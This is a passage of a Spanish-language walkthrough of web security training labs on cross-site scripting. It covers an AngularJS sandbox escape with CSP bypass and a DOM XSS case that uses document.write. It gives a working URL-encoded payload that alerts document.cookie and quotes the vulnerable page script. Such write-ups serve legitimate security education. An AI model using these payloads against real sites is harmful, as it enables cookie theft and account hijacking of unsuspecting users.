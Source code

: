 ![](img45.png)

## 20. Lab: Reflected XSS with AngularJS sandbox escape and CSP (P)

```
This lab uses CSP and AngularJS.

To solve the lab, perform a cross-site scripting attack that bypasses CSP, escapes the AngularJS sandbox, and alerts document.cookie.
```

Payload

```
%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x
```

![](img46.png)

Luego vamos al Exploit Server, y enviamos el siguiente payload.

![](img47.png)

![](img48.png)

## 21. Lab: DOM XSS in document.write sink using source location.search

```
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.
```

Buscamos cualquier texto por ejemplo **aaa** en el laboratorio y luego revisamos si encontramos alguna coincidencia en el codigo fuente. Vemos que solo tenemos una coincidencia pero luego encontramos un codigo **HTML** interesante.

```
<script>
    function trackSearch(query) {
    	document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
    	trackSearch(query);
    }
</script>
```
